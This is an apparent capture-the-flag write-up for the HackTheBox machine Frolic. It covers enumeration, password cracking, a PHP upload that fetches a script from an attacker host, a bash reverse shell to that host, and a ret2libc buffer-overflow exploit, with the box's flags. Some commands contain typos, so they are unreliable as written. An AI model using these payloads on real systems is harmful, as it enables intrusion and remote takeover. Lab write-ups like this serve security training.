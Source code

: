 # HackTheBox Frolic Writeup

![date](https://img.shields.io/badge/date-03.28.2019-brightgreen.svg)  
![web category](https://img.shields.io/badge/category-web-lightgrey.svg)
![score](https://img.shields.io/badge/score-0-blue.svg)
![solves](https://img.shields.io/badge/solves-3144-brightgreen.svg)

## Detailed Solution

### Smb scan.
      smbmap -H 10.10.10.111
      
### Check if target port is opened.      
      nc -zv 10.10.10.111 1880

### Decryption      
!(Ook language decode)[https://www.dcode.fr/ook-language]      
Then you get **Nothing here check /asdiSIAJJ0QWE9JAS**

Check out http://10.10.10.111/asdiSIAJJ0QWE9JAS

Then you get base64 code.

Decrypt it!

    cat b64encoded | base64 -d > temp
    file temp
    
Then you get a zip file encrypted with password.
    zipinfo temp
    zip2john temp > tmep.zip.hash
    john --wordlist=/usr/share/wordlists/rockyou.txt temp.zip.hash
Then you get password of this zip file

    unzip temp

Now you get a **index.php** file .
    cat index.php | xxd -r -p > index.php.b64
    base64 -d index.php.b64 > index.php

    for i in $(cat index1.php.b64); do echo -n $i | base64 -d; done
    
!(Brainfuck language decode)[https://www.dcode.fr/brainfuck-language]

#### Use hydra to brute force the login of target smb server.
    hydra -l admin -P password.txt smb://10.10.10.111

## Get Shell    
    
### Write a Upload form using file upload exploitation.    
    ---------------  Upload Form ---------------------
    <?php system('curl 10.10.16.27/Jasondidit.sh'); ?> 
    -----------------  End Form ----------------------
    
    ---------------  Shell Content --------------------
    bash -c 'bash -i >& /dev/tcp/10.10.16.27/9002 0>&1'
    -----------------  End Shell ----------------------
    
    > curl -lvnp 9002

Then you get a reverse shell!
    
## Post Exploitation

### Complete shell function using Python.
    python -c 'import pty;pty.spawn("/bin/bash")'
    stty raw -echo
    fg
    export TERM=xterm
    
    
    
    
    
### Reverse Engineering 
#### gdb-peda 
    gdb rop
    r [string]
    r Hello, world
    pattern_create 100
    r [pattern_created string]

Buffer Overflow    
    pattern_offset 0x41474141 (SIGSEGV error)
    python -c 'print "A"*[pattern_offset]'
    r [pattern_created_sting]d3adc0d3
    EIP -> 'd3ad'
    ESP -> 'c0d3'
    checksec
    CANARY
    FORTIFY
    NX
    PIE

    if randomize_va_space 2 PIE <- ENABLED
    else 1 PIE <- PIE
    else 0 PIE <- DISABLED

    RELRO

Check out Ippsec Bitterman(October) to get full understanding of rop attack.

    cat /proc/sys/kernel/randomize_va_space (PIE bit)
    uname -a
### Python Shellcode

    ldd rop (get libc address)
    readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i system (get system@@GLIBC_2.0)
    readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i exit (get exit@@GLIBC_2.0)
    strings -atx /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh (get sh address)


    touch exploit.py

    #!/usr/bin/python
    #exploit.py
    import  struct

    junk = "A" * 52
    libc = [libc address]
    system = struct.pack('<I', libc + [system address])
    exit = struct.pack('<I', libc + [exit address])
    bins = struct.pack('<i', libc + [sh address])
    
    payload = junk + system + exit + binsh 
    print payload

    cat exploit.py | base64 -w 0

    cd /dev/shm
    box > echo -n [shellcode] | base64 -d > exploit.py

Change to previous working directory
    cd - 
    ./rop $(python /dev/shm/exploit.py)

## Bonus Time

  grep -a 'Usage: program <message>' -B10 -A10 /dev/sda1
  strings /dev/sda1 | grep 'Usage: program <message>'
   

## Flags    
User Flag:  2ab95909cf509f85a6f476b59a0c2fe0   
Root Flat:  85d3fdf03f969892538ba9a731826222
